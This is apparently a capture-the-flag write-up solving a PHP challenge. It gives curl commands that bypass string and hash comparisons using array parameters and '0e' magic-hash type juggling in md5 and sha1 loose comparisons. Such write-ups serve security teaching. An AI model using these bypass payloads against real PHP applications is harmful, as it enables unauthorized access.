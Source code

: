 


```php
   if(isset($_GET['hello']) && $_GET['hello'] === "hi"){
       array_push($flag, "can't");
   }
```
 we need to add a get variable hello and set its value to hi
 
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi" -"Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`
 
```php
   if($_GET['world'] != "0x10001" && strcasecmp($_GET['world'], "0x10001") == 0){
       array_push($flag, "see");
   }
```

So here the flag part gets appended when get value of world is not equal to 0x10001 but also on the second part of if statement for it to be 0 world must be 0x10001
Luckily there is a bug for strcmp , strcasecmp where we can pass [] to bypass the check.
`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`


  
```php 
    if(isset($_GET['nice']) && isset($_GET['ecin']))
       if($_GET['nice'] != $_GET['ecin']){
           if(sha1($_GET['nice']) == sha1($_GET['ecin'])){            
               array_push($flag, "what");
           }        
       }
```


Here we need to pass two `get` params `nice` and `ecin` with different values but their sha1 values should be same in order for flag to be appended.
We use use the type juggling vulnerability here and pass two different value of nice and ecin but the  beginning part of their sha1 should match containg 0e.
From this [list](https://raw.githubusercontent.com/spaze/hashes/master/sha1.md) I was able to find such two words.
So lets pass them

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/"`



Similarly 
```php
if($_POST['ctf'] == md5($_POST['ctf'])){
       array_push($flag, "this");
   }
```
Here we need find simlar value of ctf like in step above and pass it by POST
`md5(0e215962017) = 0e291242476940776845150308577824`

`curl -A "Yes, I am a human." "https://php.0daygod.xyz/?hello=hi&world[]=haha&nice=aaroZmOk&ecin=aaK1STfY" -H "Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/" --data "ctf=0e215962017"`
